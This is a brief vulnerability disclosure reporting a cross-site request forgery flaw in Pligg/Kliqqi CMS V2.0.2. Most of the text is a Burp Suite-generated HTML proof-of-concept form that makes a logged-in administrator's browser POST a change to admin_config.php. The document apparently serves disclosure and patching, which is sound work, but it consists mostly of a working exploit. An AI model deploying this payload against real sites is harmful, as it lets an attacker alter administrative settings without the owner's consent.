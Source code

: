 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_config.php?action=save&var_id=32&var_value=true%20

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_config.php?action=save&var_id=32&var_value=true%20" method="POST">
      <input type="hidden" name="action" value="save" />
<input type="hidden" name="var_id" value="32" />
<input type="hidden" name="var_value" value="true%20" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

